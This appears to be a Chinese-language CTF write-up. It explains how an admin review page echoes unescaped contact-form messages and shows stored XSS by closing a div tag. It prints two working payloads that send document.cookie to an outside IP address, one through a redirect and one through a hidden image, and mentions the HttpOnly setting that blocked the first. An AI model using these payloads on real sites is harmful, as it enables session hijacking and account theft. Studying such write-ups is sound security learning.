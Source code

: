 ## 小姐姐小姐姐，你听我说噢
感谢0kami老哥赞助的题目
### admin/view.php
有全部的源码。
先来看`admin/view.php`，这里可以了解到我们进不去的admin用户在做什么

<div align=center>
![wp6.png](http://ww1.sinaimg.cn/large/006iKNp3gy1fqorly5xb6j30b502edfs.jpg)
</div>

这个页面是会3秒刷新一次，形成不断查看用户提交信息的行为。
之后会从数据库中原原本本读出用户提交的东西，显示在`<div>`标签内
截取一个在服务端形成的页面帮助理解标签构造(自己在本地也可以通过源码自己架构网站来实现查看)

<div align=center>
![wp7.png](http://ww1.sinaimg.cn/large/006iKNp3gy1fqorn8iil5j30gx04ejr9.jpg)
</div>

可见这个地方是可以闭合标签形成XSS的，在`contact.php`中向admin用户发送payload
<div align=center>
![wp8.png](http://ww4.sinaimg.cn/large/006iKNp3gy1fqornu65xxj30p30a5753.jpg)
</div>

<div align=center>
![wp9.png](http://ww4.sinaimg.cn/large/006iKNp3gy1fqoro4akhgj30qe03iq2r.jpg)
</div>

尝试得到XSS
payload:`</div> <script>window.location.href='http://45.63.17.127:12345/cookie.asp?msg='+document.cookie</script> <div class="panel-body">`

<div align=center>
![wp10.png](http://ww2.sinaimg.cn/large/006iKNp3gy1fqorofz8caj30ig058jrp.jpg)
</div>

失败
因为这里服务端**PHP.INI**设置了`session.cookie_httponly=On`
如果没有设置的情况
换一个payload如下(两个payload效果是一样的)：
```
</div> <script>var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://45.63.17.127:12345/a.php?joke='+document.cookie;</script> <div class="panel-body">
```

<div align=center>
![wp11.png](http://ww3.sinaimg.cn/large/006iKNp3gy1fqorov86w6j30if05mq3d.jpg)
</div>
